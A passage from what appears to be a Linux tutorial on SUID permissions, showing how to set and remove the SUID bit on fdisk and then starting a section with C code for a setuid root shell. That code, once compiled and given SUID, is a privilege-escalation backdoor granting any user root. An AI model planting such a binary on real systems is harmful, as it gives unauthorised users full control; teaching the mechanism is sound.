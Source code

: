 4. **Grant SUID to `fdisk`**:
    
    ```bash
    chmod u+s /usr/sbin/fdisk
    
    ```
    
    Verify (`s` in owner’s execute position):
    
    ```bash
    ls -lh /usr/sbin/fdisk
    
    ```
    
5. **Run `fdisk` as a regular user**:
    
    ```bash
    fdisk -l
    
    ```
    
6. **Remove SUID**:
    
    ```bash
    chmod u-s /usr/sbin/fdisk
    
    ```
    
7. **Set SUID with octal notation**:
    
    ```bash
    chmod 4755 /usr/sbin/fdisk
    
    ```
    
    Sets SUID (`4`) + permissions (`755`).
    
8. **Restore standard permissions**:
    
    ```bash
    chmod 0755 /usr/sbin/fdisk
    
    ```
    

### Custom Setuid Root Shell

1. **Create C code for a root shell**:
    
    ```c
    #include <stdio.h>
    int main(void) {
        setuid(0);
        setgid(0);
        seteuid(0);
        setegid(0);
        execvp("/bin/sh", NULL, NULL);
    }
    
    ```
    